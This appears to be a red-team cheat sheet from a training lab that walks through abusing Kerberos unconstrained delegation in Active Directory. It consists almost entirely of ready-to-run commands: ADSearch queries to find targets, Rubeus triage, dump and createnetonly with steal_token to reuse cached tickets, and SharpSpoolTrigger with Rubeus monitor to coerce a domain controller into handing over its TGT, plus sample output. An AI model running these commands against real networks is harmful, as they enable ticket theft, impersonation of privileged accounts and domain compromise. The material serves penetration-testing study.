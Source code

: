 # Get machines with unconstrained delegation in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

---

# After compromising a machine on the list we can wait for a privileged account to interact with it to get the tgt cached

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

---

# If a TGT is cached we can simply dump the ticket and pass the ticket to a proccess created by us

```bash
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540

```

---

---

# We can also force computer accounts to authenticate remotely to grab their TGT

```bash
# Start listening with Rubeus on Web
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

# Use SharpSpoolTriget
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

# We should see a ticket comming by on web
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    sdfsdfsdfsdfsdf

# Use the same technique as before to use the ticket

# To stop monitoring use
jobs
jobkill <id>
```
